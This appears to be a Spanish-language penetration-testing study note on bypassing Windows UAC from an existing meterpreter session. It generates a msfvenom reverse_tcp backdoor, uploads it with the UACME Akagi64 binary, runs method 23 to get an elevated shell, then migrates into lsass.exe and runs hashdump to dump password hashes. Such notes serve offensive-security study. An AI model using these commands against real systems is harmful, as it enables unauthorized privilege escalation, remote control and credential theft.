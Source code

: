
UAC ( User Account Control ) es una medida de seguridad de windows que se utiliza para prevenir cambios no autorizados en el sistema operativo. Requiere la aprovación de un usuario administrador.

**Necesitaremos un usuario del grupo de administradores para esta técnica**

![[Pasted image 20250220093215.png]]

 Partimos de una sesión de meterpreter en la que tenemos un usuario que pertenece al grupo de administradores.

![[Pasted image 20250220094704.png]]

Aún así si vemos los privilegios del usuario vemos que no tiene los privilegios de un superusuario.

![[Pasted image 20250220094737.png]]

Vamos a generar un payload.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe
```

Esta técnica utiliza el binario akagi.exe y es importante acceder al git para ver la versión que utilizar según el sistema Operativo a atacar.

Git:

Vamos a subir el binario al sistema desde la sesión de meterpreter:

```bash

#Subimos tanto el payload de msfvenom como el binario que nos permite hacer el bypass de UAC
upload backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe

#Ponemos la sesión actual en el fondo
background

#Abrimos un multi/handler
use exploit /multi/handler
show options
exploit

#Volvemos a la sesión anterior y ejecutamos el bypass. Posteriormente metemos la sesión en el fondo
sessions 1
shell
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
^C
background

#Vamos a la sesión que tenía el multi/handler y vemos que ahora si tenemos los privilegios de un administrador. El migrate importante.
sessions 2
getprivs
migrate -N lsass.exe
hashdump
```
